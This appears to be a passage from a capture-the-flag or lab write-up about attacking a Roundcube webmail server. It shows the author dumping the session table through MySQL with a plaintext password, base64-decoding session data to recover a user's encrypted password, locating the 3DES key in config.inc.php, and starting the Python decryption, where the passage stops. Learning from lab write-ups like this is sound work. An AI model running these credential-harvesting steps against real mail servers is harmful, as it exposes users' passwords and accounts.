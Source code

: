 After some more enumeration I found this:

```sh
mysql -u roundcube -pRCDBPass2025 -e "select * from roundcube.session;"
sess_id changed ip      vars
6a5ktqih5uca6lj8vrmgh9v0oh      2025-06-08 15:46:40     172.17.0.1      bGFuZ3VhZ2V8czo1OiJlbl9VUyI7aW1<snip>joibWF21vZF9zZXF8czoyOiIxMCI7
```

Navigating the b64 decoded data, I can see some intersting data with the username `jacob`:


```python
print(Chepy("bGFuZ3VhZ2V8czo1OiJlbl9<snip>jtpOjM7fX1saXN0X21vZF9zZXF8czoyOiIxMCI7")
        .from_base64()
        .find_replace(";", "\n")
        .o
        .decode())
```

    ...
    username|s:5:"jacob"
    ...
    password|s:32:"L7Rv00A8TuwJAr67kITxxcSgnIk25Am/"
    ...
    


Looking at the source code for roundcube, we can see that encrypted strings are tripledes encoded, and sometimes with an IV. So we need to go fishing for the key so we can decrypt this. 

https://github.com/roundcube/roundcubemail/blob/ba60aa863711e3275495c80c2c3827736da07e9b/program/lib/Roundcube/rcube.php#L900

If we look back at our config.inc.php file, we can see the following line:

```php
$config['des_key'] = 'rcmail-!24ByteDESkey*Str';
```

Let's start with a known session so we can validate our decryption mechanism; we may not know what we're looking at if we just start trying to decrypt this unknown password. To this end, we'll simply log in with `tyler` to generate a session, then pull the db data again.

I promise bro, this is tyler's session data I swear.

```sh
sess_id changed ip      vars
6a5ktqih5uca6lj8vrmgh9v0oh      2025-07-12 20:33:44     172.17.0.1      bGFuZ3VhZ2V8czo1OiJlbl9VUyI7dGVtcHxiOjE7cmVxdWVzdF90b2tlbnxzOjMyOiJndkdJdWxoc1BoeUp6bGRaZlFxMzkycTIxZlhOOXZCdiI7
pi5887olsnhactqd87qmd8h3vd      2025-07-12 20:33:59     172.17.0.1      bGFuZ3VhZ2V8czo1Oi<snip>pOjA7fQ==
```


```python
tyler_3des = (
    Chepy("bGFuZ3VhZ2V8czo1OiJ<snip>0OiJTZW50IjtpOjA7fQ")
        .from_base64()
        .find_replace(";", "\n")
        .regex_search('password.*"(.+)"')
        .from_base64()
        .to_hex()
        .o.decode()
)

print(f"tyler_3des: {tyler_3des}")

```
